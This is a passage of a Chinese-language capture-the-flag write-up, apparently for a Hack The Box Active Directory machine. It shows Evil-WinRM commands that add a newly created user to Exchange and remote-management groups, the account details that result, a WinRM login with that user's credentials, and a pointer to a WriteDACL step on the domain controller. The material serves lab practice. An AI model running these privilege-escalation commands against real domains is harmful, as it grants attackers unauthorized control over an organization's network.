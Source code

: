 把 生成 的 zf1yolo 用户加入 exchange 和 win 远程管理的组

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net group "Exchange Windows Permissions" zf1yolo /add /domain

*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net group "Exchange Trusted Subsystem" zf1yolo /add /domain

*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net localgroup "Remote Management Users" zf1yolo /add 
```

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net user zf1yolo
User name                    zf1yolo
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/13/2023 12:29:17 AM
Password expires             Never
Password changeable          9/14/2023 12:29:17 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Exchange Windows Perm*Domain Users
                             *Exchange Trusted Subs
```

再用 winrm 远程登录 `zf1yolo:zf1yolo` 用户

```bash
└─# evil-winrm -i 10.10.10.161 -u zf1yolo -p zf1yolo      

*Evil-WinRM* PS C:\Users\zf1yolo\Documents> whoami
htb\zf1yolo
```

### 步骤二：

writeDac 到域控，根据 bloodhound 里的写法操作
